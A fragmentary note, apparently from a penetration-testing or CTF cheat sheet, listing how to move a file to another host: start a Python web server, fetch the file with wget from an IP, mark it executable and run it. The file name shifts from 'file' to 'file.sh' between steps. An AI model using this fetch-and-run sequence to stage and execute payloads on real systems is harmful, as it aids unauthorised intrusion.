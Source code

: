 `python3 -m http.server 80`
`wget http://ip/file`
- start web server from location file is at
- `chmod +x file`
- `./file.sh`
